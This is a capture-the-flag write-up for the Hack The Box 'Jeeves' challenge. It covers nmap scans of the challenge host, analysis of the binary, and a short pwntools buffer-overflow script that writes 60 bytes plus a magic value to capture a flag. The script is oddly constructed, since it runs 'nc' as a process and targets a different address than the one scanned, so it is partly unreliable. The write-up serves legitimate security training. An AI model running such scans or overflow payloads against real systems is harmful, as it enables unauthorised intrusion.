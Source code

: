 ```yaml
---
layout: post
title:  "Jeeves-hackthebox:intro to binary exploitation"
image: ''
date:   2021-11-06 00:06:31
tags:
- hackthebox
- binary_exploitation
description: ''
categories:
- hackthebox 
---
```



## Given

```
host
165.227.225.205:31382

challenge description
How are you doing, sir?

some binary file
jeevs
```
I started by scanning the host
```bash
 nmap -Pn --min-rate 4500 --max-rtt-timeout 1500ms   165.227.225.205 -p- 
```


## analysing jeevs file 

file type
```
./jeeves: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=18c31354ce48c8d63267a9a807f1799988af27bf, for GNU/Linux 3.2.0, not stripped
```

`strings` gives nothing intresting 


## jeeves data flow
```
jeeves run --> asks for name --> hello $name exits
```

## nmap output

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 16:58 EET
Nmap scan report for 165.227.225.205
Host is up (0.17s latency).
Not shown: 65499 filtered ports, 35 closed ports
PORT      STATE SERVICE
31251/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 29.74 seconds
```


one port open

## analysing port:
```bash
 nmap -Pn -sC -sV 165.227.225.205 -p31251
```

output

```
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-05 17:00 EET
Nmap scan report for 165.227.225.205
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
31251/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Employee File Manager

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.50 seconds
```

Looking into jeeves page on port 31251
![](https://i.imgur.com/qHSg99V.png)



seems same binary is deployed there
lets try connectingto it with `nc`
![](https://i.imgur.com/tNgoUQK.png)



## further analysing binary with ghidra

we realise we need 60 x a to reach the var we want

![](https://i.imgur.com/TtA2Muk.png)

so I used pwn tools witn nc

```python
from pwn import *

target = process("nc")
target.sendline("209.97.187.130 32259")

payload = "A"*60
payload += p64(0x1337bab3)

target.sendline(payload)
print (target.recvuntil("}"))
```

and we get the flag
![](https://i.imgur.com/kQxpVE8.png)


```
flag
 HTB{hidden}

```
#easy
#binary


